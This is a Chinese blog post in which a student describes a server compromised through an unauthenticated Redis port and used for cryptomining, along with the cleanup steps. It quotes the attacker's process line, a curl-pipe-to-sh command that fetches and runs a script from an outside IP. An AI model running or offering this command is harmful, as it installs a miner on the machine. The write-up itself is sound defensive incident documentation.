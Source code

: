 ```yaml
---
title:      "谈一个Redis漏洞——记一次服务器被挖矿经历"
date:       2021-11-29
author:     "JessieLin"
tags:
     - 19级
     - Java
---
```


#   谈一个Redis漏洞——记一次服务器被挖矿经历

> 服务器：阿里云轻量应用服务器
>
> 系统：centos 8.2

## 1 事件起因
2021年11月21日中午12：37分左右，在做软工作业的我突然想直接用ARDM(一个Redis可视化工具)连连服务器上的Redis看看里面现在有啥（因为之前写码的时候忘记设置过期时间了，里面有不少没啥用的key)，然后直接去服务器控制台打开6379端口（之前也这么直连过一次但没出事），因为我知道Redis没有密码，所以我一小会直接用完马上就关闭了6379端口。

13：14分，前端突然和我说后台连不上去了报Error，我试了下我也连不上去，域名访问全部失效，服务器挂了？，然后又试了下IP直接访问，可以访问，看来是转发层挂了。然后连服务器一看nginx的状态是failed，当时就在想nginx这么稳定竟然也会挂啊。然后试了下服务好了，就睡觉了，结果下午四点多突然前端又和我说服务又挂了，我直接懵了nginx今天抽风了？？？？然后我又重启了一遍nginx。结果很快啊大概不到半个小时它又又又挂了，我开始觉得不对劲了，啥情况啊？我systemctl nginx status一看，failed，但是这次我仔细看了failed的原因，killed？kill -9？这不是意味着进程被杀了嘛，内存不够？看了下服务器内存占用，好像空间也够啊，（这时候我看到CPU占用一直50%多，还以为阿里云抽风了）。这时候我意识到服务器是不是被人攻击了？后台是不是有程序一直在kill nginx？然后我输入ps aux一看，不看不要紧，一看就看到一个

> ```
> /bin/sh -c curl -fsSL http://45.133.203.192/cleanfda/init.sh | sh
> ```

的进程，我在想，这IP是啥啊，看着好陌生。结果一百度，就百度到了Redis被攻击注入挖矿脚本。突然前面的一切都解释通了...服务器被人注入挖矿脚本。然后我赶紧kill -9把这个进程kill了。

然后又百度了一下，让我去看定时任务，好嘛，那我crontab -l一看，就看到一个sh /etc/newinit.sh，想想我以前肯定没弄过定时任务，果断cd到etc下删除，结果报operation not permiited。就奇了怪了我是root用户，居然还有我root删不掉的东西？百度了一下原来linux还有chattr lsattr这种给文件附加额外隐藏属性的命令，一输又报not found，需要先yum -y install e2fsprogs才能用。下了后用lsattr查看这个文件，

>```
> lsattr newinit.sh
> ----i-----a---- newinit.sh (可能a的位置不对，百度也百度不到，当时没截图)
>```

果然被附加了ia的锁，用

>```
> chattr -ia newinit.sh
>```

就能解开文件的锁，然后就可以用rm -rf删掉文件了。这时候其实服务器CPU已经降下来了。可以用top命令检查CPU情况，确认一下没有其他异常的进程。但是这时服务器仍然残留着脚本和后门，请看第二部分。



*ARDM （Another Redis Desktop Manager，一个很好用的免费的Redis可视化管理工具，可以在github上找到）
